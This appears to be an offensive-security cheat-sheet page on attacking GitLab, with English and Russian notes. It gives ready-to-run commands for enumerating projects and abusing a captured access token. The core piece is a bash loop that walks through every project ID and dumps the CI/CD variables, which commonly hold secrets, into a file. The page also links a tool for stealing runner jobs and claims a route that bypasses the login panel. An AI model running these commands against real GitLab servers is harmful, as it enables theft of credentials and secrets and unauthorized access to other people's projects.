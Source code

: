 ```yaml
---
description: Gitlab checks
---
```


# Gitlab

### Search for secrets

{% embed url="https://github.com/praetorian-inc/noseyparker" %}

```bash
#Scan repo
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest scan .
#Get results
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest report
```

### Reconnaissance

{% embed url="https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/" %}

### Check public repositories

```bash
curl "https://gitlab.com/api/v4/projects?visibility=public&per_page=100"" | jq '.[] | {name, path, web_url}'
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

**Route `/explore` allow to go behind the login panel**

### Abusing GitLab token

#### Get variables from projects

define count pages and replace max page in seq. First take all projects id

```bash
for page in $(seq 0 110); do echo $page && curl -s --header "PRIVATE-TOKEN: <token>" "https://gitlab.example.com/api/v4/projects?per_page=100&page=$page" | jq ".[].id" >> gitlab-ids.txt; done
```

Then try get var

```bash
while IFS='' read -r LINE || [ -n "${LINE}" ]; do url="https://gitlab.example.com/api/v4/projects/$LINE"; vars=$(curl -s --header 'PRIVATE-TOKEN: token' $url/variables); [ ${#vars} -gt 5 ] && echo $vars > .tempvars && curl -s --header 'PRIVATE-TOKEN: token' $url | jq --slurpfile v .tempvars '{id: .id, git: .http_url_to_repo, vars: $v[0]}' >> gitlab-vars.txt; done <gitlab-ids.txt
```

Also try get gitlab-group vars (мне пока лень)

### Abusing GitLab Runners

{% embed url="https://frichetten.com/blog/abusing-gitlab-runners/" %}

Script for steal tasks by requesting them faster than a real runner - [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)



### Check projects access level&#x20;

```bash
curl --header "PRIVATE-TOKEN: <token>" "https://gitlab.com/api/v4/projects?membership=true&per_page=100"
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

```json
[
  {
    "id": 123,
    "name": "my-repo",
    "path": "my-repo",
    "permissions": {
      "project_access": {
        "access_level": 30  # 30 = Developer
      },
      "group_access": null
    }
  }
]
```

**Уровни доступа:**

* `10` — Guest (только чтение)
* `20` — Reporter (чтение + доступ к CI/CD)
* `30` — Developer (чтение + запись + запуск CI/CD)
* `40` — Maintainer (полный доступ, кроме удаления проекта)
* `50` — Owner (полный доступ)
